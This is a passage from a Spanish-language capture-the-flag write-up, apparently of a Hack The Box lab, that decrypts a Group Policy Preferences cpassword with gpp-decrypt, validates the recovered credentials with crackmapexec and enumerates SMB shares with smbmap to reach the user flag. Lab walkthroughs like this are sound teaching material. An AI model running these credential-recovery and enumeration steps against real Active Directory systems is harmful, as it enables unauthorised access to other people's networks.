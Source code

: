 ```
name="active.htb\SVC_TGS"
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

Especificamente es un hash, por lo tanto, si se logra romper dicho hash podremos ver la contraseña en texto claro.


## [](#header-2)Explotación


Para crackear el hash se utiliza la herramienta `gpp-decrypt`:

```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```
Teniendo un posible usuario y contraseña, los validamos utilizando `crackmapexec`:

```
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'

SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18 
```

Con las credenciales utilizamos `smbmap`:

```
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'

[+] IP: 10.10.10.100:445        Name: active.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY

```

Observamos que tenemos capacidad de lectura en el directorio Users, navegamos hasta el directorio personal del usuario SVC_TGS:

```
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Users/SVC_TGS/Desktop

[+] IP: 10.10.10.100:445        Name: active.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Users                                                   READ ONLY
        .\UsersSVC_TGS\Desktop\*
        dr--r--r--                0 Sat Jul 21 11:14:42 2018    .
        dr--r--r--                0 Sat Jul 21 11:14:42 2018    ..
        fw--w--w--               34 Mon Feb  6 17:56:46 2023    user.txt

```
Encontramos la flag de usuario, por lo tanto, la descargamos:
